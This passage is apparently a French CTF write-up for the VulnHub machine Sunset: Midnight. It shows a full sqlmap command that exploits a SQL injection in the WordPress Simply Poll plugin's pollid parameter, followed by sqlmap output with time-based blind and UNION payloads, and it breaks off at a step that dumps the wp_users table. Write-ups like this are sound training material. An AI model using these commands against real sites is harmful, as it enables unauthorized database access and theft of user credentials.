 ```yaml
---
title: "Solution du CTF Sunset: Midnight de VulnHub"
tags: [CTF, VulnHub]
---
```


[Sunset: Midnight](https://vulnhub.com/entry/sunset-midnight,517/) était un CTF que je recommanderais volontiers à ce qui souhaitent s'exercer sur un boot2root proche de la réalité.

Via un scan de ports avec _Nmap_ on trouve trois services sur la VM : SSH, Apache et MySQL.

## Polly wants a cracker

Le port 80 retourne la page d'un CMS *Wordpress* configuré pour le nom de domaine `sunset-midnight`. On peut déjà rajouter une entrée dans notre fichier `/etc/hosts` pour accéder plus facilement au site.

Le blog indique l'information suivante

> Now, with the use of Simply Poll, we may find out what the customers desire within the available products!

Ce plugin Wordpress est vulnérable à une faille d'injection SQL. Un *Proof of Concept* est présent sur *exploit-db* :

[WordPress Plugin Simply Poll 1.4.1 - SQL Injection - PHP webapps Exploit](https://www.exploit-db.com/exploits/40971)

Le paramètre `pollid` traité par le plugin via l'interface Ajax est celui qui pose problème. Je l'attaque via `sqlmap` :

```bash
python sqlmap.py -u "http://sunset-midnight/wp-admin/admin-ajax.php" --data="action=spAjaxResults&pollid=2" --dbms=mysql --level=5 --risk=3 -p pollid
```

Le scanner nous informe que la vulnérabilité est bien présente :

```
sqlmap identified the following injection point(s) with a total of 2046 HTTP(s) requests:
---
Parameter: pollid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=spAjaxResults&pollid=2 AND (SELECT 7400 FROM (SELECT(SLEEP(5)))JbcI)

    Type: UNION query
    Title: Generic UNION query (random number) - 7 columns
    Payload: action=spAjaxResults&pollid=2 UNION ALL SELECT 1281,1281,1281,1281,1281,CONCAT(0x716b7a7871,0x6379675459764570616a4c4b706f684d6c4179586c6d564b425a76614f714b4542666b4f6b674c66,0x71766b7171),1281-- -
---
```

On peut alors lister les bases de données (option `--dbs`) puis dumper la tables des utilisateurs du blog (`-D wordpress_db -T wp_users --dump`) :
